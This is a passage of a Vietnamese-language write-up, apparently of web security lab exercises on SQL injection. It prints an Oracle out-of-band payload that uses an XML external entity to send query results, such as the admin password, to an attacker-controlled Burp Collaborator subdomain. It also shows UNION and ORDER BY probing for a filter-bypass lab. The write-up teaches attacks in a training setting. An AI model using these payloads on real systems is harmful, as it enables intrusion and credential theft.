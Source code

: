 ![image](https://hackmd.io/_uploads/Hy0EyoEhT.png)
Phần subdomain của dòng đen kia là password của admin.

P/S: Lúc đầu mình tưởng là phần response trong HTTP kia là password. 
```sql=
SELECT EXTRACTVALUE(xmltype('
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>
'),'/l') FROM dual
```

Phân tích payload một chút, ta có 1 DOCTYPE tên là root. Ở đây có khai báo 1 thực thể (Entity) tên là remote và được khai báo gồm dấu `%` và parameter entity của nó được tham chiếu sử dụng dấu `%`. Entity này đi với từ khóa `SYSTEM` được sử dụng để xác định 1 đối tượng bên ngoài chứa định nghĩa của DTD (document type definition - là tài liệu để định nghĩa kiểu dữ liệu cho các phần tử của XML document. Khi đọc XML document, chỉ cần đọc DTD là biết được cấu trúc XML (Thẻ `!DOCTYPE`)). Đối tượng bên ngoài này là subdomain của Burp Collab mà chúng ta host, với subdomain ở đây là câu query mà chúng ta muốn thực hiện. 
Parameter thứ hai của hàm xmltype là /l, nó lấy hết phần tử con trực tiếp của phần tử gốc. Phần tử gốc ở đây là thẻ `<?xml>` vì vậy nó lấy thẻ `DOCTYPE`.
Hàm `EXTRACTVALUE` được sử dụng để trích xuất giá trị của 1 phần từ XML.


## Lab 18: SQL injection with filter bypass via XML encoding
Description: Database chứa 1 `users` table chứa username và password của các user. Để pass bài lab thì sử dụng SQLi để lấy được thông tin tài khoản admin để đăng nhập.
Lỗ hổng ở bài này không phải ở cookie như mấy bài trước mà ở chức năng checkstock trong các mặt hàng. Nó có chứa 1 đoạn xml.
![image](https://hackmd.io/_uploads/HJhN1kDhp.png)

Trong request mình thử thay đổi cả productId và storeId thành 1+1 để xem cách input của mình được đánh giá thì đều có sự khác biệt. Mình thấy nó trả về giá trị của 1 stock khác. -> Nó sử dụng 1 câu query đến database để lấy value

Thử 1 payload trong storedId `1 ORDER BY 3` thì response trả về 0 units. Có vẻ như câu query đã sai nên không có giá trị nào trả về và mặc định sẽ là 0 units
![image](https://hackmd.io/_uploads/ByexmQ1w2p.png)

Khi mình sử dụng `1 ORDER BY 1` thì đã có giá trị trả về, có vẻ như câu query trước đến database chỉ có 1 cột. Khi đó mình sử dụng payload `1 UNION SELECT NULL` thì backend đã phát hiện và response
![image](https://hackmd.io/_uploads/ByftXJDhT.png)

Khi đó, ta có thể sử dụng Hackvertor
![image](https://hackmd.io/_uploads/SJP2XJDha.png)
Mình thấy đã có sự khác biệt trong response.

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

937 units
null
```
